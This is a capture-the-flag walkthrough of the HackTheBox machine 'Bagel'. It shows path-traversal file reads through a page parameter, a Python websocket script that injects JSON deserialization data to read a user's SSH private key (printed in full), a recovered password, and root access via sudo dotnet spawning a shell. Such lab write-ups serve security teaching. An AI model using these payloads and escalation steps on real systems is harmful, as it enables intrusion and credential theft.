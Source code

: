 # Introduction
Bagel is a medium level machine on HackTheBox which is a great box to learn about JSON # deserialization and how to exploit LFI to gain access to the machine
# Initial scan
First we start an NMAP scan to find all open ports on the machine and I found 3 ports which are `22,5000,8000` and port 8000 redirects us to `bagel.htb` domain so we add it to `/etc/hosts` file
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ nmap -sC -sV 10.10.11.201
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 12:58 EDT
Nmap scan report for 10.10.11.201
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.8 (protocol 2.0)
| ssh-hostkey: 
|   256 6e4e1341f2fed9e0f7275bededcc68c2 (ECDSA)
|_  256 80a7cd10e72fdb958b869b1b20652a98 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:19 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 400 Bad Request
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:36 GMT
|     Connection: close
|   Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:47 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:20 GMT
|     Content-Length: 54
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (version).)</h1>
|   SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:48 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|     <h1>Bad Request (Invalid request line (parts).)</h1>
|   TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/html
|     Server: Microsoft-NetCore/2.0
|     Date: Mon, 29 May 2023 16:59:49 GMT
|     Content-Length: 52
|     Connection: close
|     Keep-Alive: true
|_    <h1>Bad Request (Invalid request line (parts).)</h1>
8000/tcp open  http-alt Werkzeug/2.2.2 Python/3.10.9
|_http-server-header: Werkzeug/2.2.2 Python/3.10.9
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 29 May 2023 16:59:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.10.9
|     Date: Mon, 29 May 2023 16:59:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 263
|     Location: http://bagel.htb:8000/?page=index.html
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="http://bagel.htb:8000/?page=index.html">http://bagel.htb:8000/?page=index.html</a>.
```
and we open the website on port 8000 because it won't work on other ports and a website appears
![image](img/1.png)
and we notice that there is a page parameter in the URL and it name of a file so we try LFI and it worked and we know from the /etc/passwd file that there are 2 users who are phil and devloper
![image](img/2.png)
We tried trying to get interesting files without success, like the _id_rsa_ or some log file. We tried fuzzing _active_ system processes using a small one liner.
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$  for i in $(seq 900 1000); do curl bagel.htb:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 923
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 925
```
so we found some interesting processes pointing to a dll file with the name of bagel.dll so we download the file using LFI we found earlier and by using dnspy we found a password for the username developer but it didn't work on SSH but we found a way to inject json serialized data
![imag](Bagel/img/3.png)
# Initial foothold
so we create a python script to connect to the websocket on the machine and to inject serialized JSON data to be able to read the ssh key for phil user
```python
#!/usr/bin/python3 
import websocket,json 
ws = websocket.WebSocket() 
ws.connect("ws://bagel.htb:5000/") 
order = {"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../../../home/phil/.ssh/id_rsa" }} 
data = str(json.dumps(order)) 
ws.send(data) 
result = ws.recv() 
print(result)
```
and we get the following results
```json
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ python3 script.py
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "11:44:45",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2\ns8SIkkk0KmIYED3c7aSC8C74FmvSDxTtNOd3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N\ndZiev5vBubKayIfcG8QpkIPbfqwXhKR+qCsfqS//bAMtyHkNn3n9cg7ZrhufiYCkg9jBjO\nZL4+rw4UyWsONsTdvil6tlc41PXyETJat6dTHSHTKz+S7lL4wR/I+saVvj8KgoYtDCE1sV\nVftUZhkFImSL2ApxIv7tYmeJbombYff1SqjHAkdX9VKA0gM0zS7but3/klYq6g3l+NEZOC\nM0/I+30oaBoXCjvupMswiY/oV9UF7HNruDdo06hEu0ymAoGninXaph+ozjdY17PxNtqFfT\neYBgBoiRW7hnY3cZpv3dLqzQiEqHlsnx2ha/A8UhvLqYA6PfruLEMxJVoDpmvvn9yFWxU1\nYvkqYaIdirOtX/h25gvfTNvlzxuwNczjS7gGP4XDAAAFgA50jZ4OdI2eAAAAB3NzaC1yc2\nEAAAGBALoSHA+yoljDfHjJZoXSiw3JZ59G10objIwWKS+anYcPJtUXt1HftrPEiJJJNCpi\nGBA93O2kgvAu+BZr0g8U7TTnd0/4nj0WTgX+Qlt4GWqR4fpjTq0mZNdxdvDXWYnr+bwbmy\nmsiH3BvEKZCD236sF4SkfqgrH6kv/2wDLch5DZ95/XIO2a4bn4mApIPYwYzmS+Pq8OFMlr\nDjbE3b4perZXONT18hEyWrenUx0h0ys/ku5S+MEfyPrGlb4/CoKGLQwhNbFVX7VGYZBSJk\ni9gKcSL+7WJniW6Jm2H39UqoxwJHV/VSgNIDNM0u27rd/5JWKuoN5fjRGTgjNPyPt9KGga\nFwo77qTLMImP6FfVBexza7g3aNOoRLtMpgKBp4p12qYfqM43WNez8TbahX03mAYAaIkVu4\nZ2N3Gab93S6s0IhKh5bJ8doWvwPFIby6mAOj367ixDMSVaA6Zr75/chVsVNWL5KmGiHYqz\nrV/4duYL30zb5c8bsDXM40u4Bj+FwwAAAAMBAAEAAAGABzEAtDbmTvinykHgKgKfg6OuUx\nU+DL5C1WuA/QAWuz44maOmOmCjdZA1M+vmzbzU+NRMZtYJhlsNzAQLN2dKuIw56+xnnBrx\nzFMSTw5IBcPoEFWxzvaqs4OFD/QGM0CBDKY1WYLpXGyfXv/ZkXmpLLbsHAgpD2ZV6ovwy9\n1L971xdGaLx3e3VBtb5q3VXyFs4UF4N71kXmuoBzG6OImluf+vI/tgCXv38uXhcK66odgQ\nPn6CTk0VsD5oLVUYjfZ0ipmfIb1rCXL410V7H1DNeUJeg4hFjzxQnRUiWb2Wmwjx5efeOR\nO1eDvHML3/X4WivARfd7XMZZyfB3JNJbynVRZPr/DEJ/owKRDSjbzem81TiO4Zh06OiiqS\n+itCwDdFq4RvAF+YlK9Mmit3/QbMVTsL7GodRAvRzsf1dFB+Ot+tNMU73Uy1hzIi06J57P\nWRATokDV/Ta7gYeuGJfjdb5cu61oTKbXdUV9WtyBhk1IjJ9l0Bit/mQyTRmJ5KH+CtAAAA\nwFpnmvzlvR+gubfmAhybWapfAn5+3yTDjcLSMdYmTcjoBOgC4lsgGYGd7GsuIMgowwrGDJ\nvE1yAS1vCest9D51grY4uLtjJ65KQ249fwbsOMJKZ8xppWE3jPxBWmHHUok8VXx2jL0B6n\nxQWmaLh5egc0gyZQhOmhO/5g/WwzTpLcfD093V6eMevWDCirXrsQqyIenEA1WN1Dcn+V7r\nDyLjljQtfPG6wXinfmb18qP3e9NT9MR8SKgl/sRiEf8f19CAAAAMEA/8ZJy69MY0fvLDHT\nWhI0LFnIVoBab3r3Ys5o4RzacsHPvVeUuwJwqCT/IpIp7pVxWwS5mXiFFVtiwjeHqpsNZK\nEU1QTQZ5ydok7yi57xYLxsprUcrH1a4/x4KjD1Y9ijCM24DknenyjrB0l2DsKbBBUT42Rb\nzHYDsq2CatGezy1fx4EGFoBQ5nEl7LNcdGBhqnssQsmtB/Bsx94LCZQcsIBkIHXB8fraNm\niOExHKnkuSVqEBwWi5A2UPft+avpJfAAAAwQC6PBf90h7mG/zECXFPQVIPj1uKrwRb6V9g\nGDCXgqXxMqTaZd348xEnKLkUnOrFbk3RzDBcw49GXaQlPPSM4z05AMJzixi0xO25XO/Zp2\niH8ESvo55GCvDQXTH6if7dSVHtmf5MSbM5YqlXw2BlL/yqT+DmBsuADQYU19aO9LWUIhJj\neHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```
so we save the key in a file and give the right permissions
```bash
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ chmod 600 rsa_key
┌──(kali㉿kali)-[~/HTB/bagel]
└─$ ssh phil@bagel.htb -i rsa_key
Last login: Tue Feb 14 11:47:33 2023 from 10.10.14.19
[phil@bagel ~]$
```
and we are able to retrieve the user.txt flag after that we try to login as developer using the password we got earlier *developer:k8wdAYYKyhnjg3K*
```bash
[phil@bagel ~]$ su developer
Password: 
[developer@bagel phil]$ 
```
# Privilege Escalation
we run sudo -l do see our permissions and we got the following
```
[developer@bagel phil]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME
    LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```
so we can run dotnet as admin so we go to [gtfiobin](https://gtfobins.github.io/gtfobins/dotnet/#sudo) and we get root
```bash
[developer@bagel phil]$ sudo dotnet fsi
>System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# id 
uid=0(root) gid=0(root) groups=0(root)
```

# VOILA
